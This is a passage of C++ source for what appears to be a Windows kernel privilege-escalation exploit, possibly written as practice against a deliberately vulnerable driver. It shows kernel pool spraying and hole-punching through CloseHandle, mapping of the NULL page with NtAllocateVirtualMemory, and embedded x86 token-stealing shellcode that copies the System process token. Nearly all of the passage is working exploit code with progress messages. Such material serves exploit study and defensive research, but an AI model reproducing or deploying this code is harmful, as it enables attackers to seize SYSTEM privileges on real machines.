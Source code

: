 ```cpp

    cout << "[>] Sequential spray complete.\n";

    cout << "[>] Poking 0x200 byte-sized holes in our sequential allocation...\n";
    for (int i = 0; i < sequential_handles.size(); i = i + 0x16) {
        for (int x = 0; x < 8; x++) {
            BOOL freed = CloseHandle(sequential_handles[i + x]);
            if (freed == false) {
                cout << "[!] Unable to free sequential allocation!\n";
                cout << "[!] Last error: " << GetLastError() << "\n";
                exit(1);
            }
        }
    }
    cout << "[>] Holes poked lol.\n";
}

void allocate_shellcode() {

    _NtAllocateVirtualMemory NtAllocateVirtualMemory =
        (_NtAllocateVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll.dll"),
            "NtAllocateVirtualMemory");

    INT64 address = 0x1;
    int size = 0x100;

    HANDLE result = (HANDLE)NtAllocateVirtualMemory(
        GetCurrentProcess(),
        (PVOID*)&address,
        NULL,
        (PSIZE_T)&size,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    if (result == INVALID_HANDLE_VALUE) {
        cout << "[!] Unable to allocate NULL page...wtf?\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
    }
    cout << "[>] NULL page mapped.\n";
    cout << "[>] Placing pointer to shellcode on NULL page at offset 0x60...\n";

    BYTE shellcode[] = (
        "\x60"
        "\x64\xA1\x24\x01\x00\x00"
        "\x8B\x40\x50"
        "\x89\xC1"
        "\x8B\x98\xF8\x00\x00\x00"
        "\xBA\x04\x00\x00\x00"
        "\x8B\x80\xB8\x00\x00\x00"
        "\x2D\xB8\x00\x00\x00"
        "\x39\x90\xB4\x00\x00\x00"
        "\x75\xED"
        "\x8B\x90\xF8\x00\x00\x00"
        "\x89\x91\xF8\x00\x00\x00"
        "\x61"
        "\xC2\x10\x00"  // ret 0x10
        );

    LPVOID shellcode_addr = VirtualAlloc(NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
```